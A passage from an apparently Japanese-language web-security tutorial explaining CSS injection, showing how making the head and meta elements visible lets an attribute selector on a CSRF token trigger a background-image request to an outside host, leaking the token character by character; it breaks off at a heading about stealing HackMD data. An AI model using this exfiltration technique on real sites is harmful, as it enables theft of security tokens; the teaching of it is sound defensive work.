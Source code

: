 しかし、これだけでは十分ではありません。リクエストがまだ送信されていないことに気づくでしょう。これは、`<meta>` が `<head>` の下にあり、`<head>` にはデフォルトで `display:none` プロパティがあるためです。したがって、`<meta>` を「見えるようにする」ためには、`<head>` も特別に設定する必要があります。

```css
head, meta {
  display: block;  
}

meta[name="csrf-token"][content^="a"] {
  background: url(https://example.com?q=a);
}
```

このように記述すると、ブラウザがリクエストを送信するのがわかります。ただし、画面には何も表示されません。なぜなら、結局のところ、`content` は属性であり、HTMLのテキストノードではないため、画面には表示されません。しかし、`meta` 要素自体は実際には可視であり、これがリクエストが送信される理由です。

![meta style](pics/17-03.png)

画面にコンテンツを表示したい場合は、擬似要素と `attr` を使用することで実現できます。

```css
meta:before {
    content: attr(content);
}
```

すると、metaタグ内のコンテンツが画面に表示されます。

最後に、実際の事例を見てみましょう。

## HackMDのデータを盗む
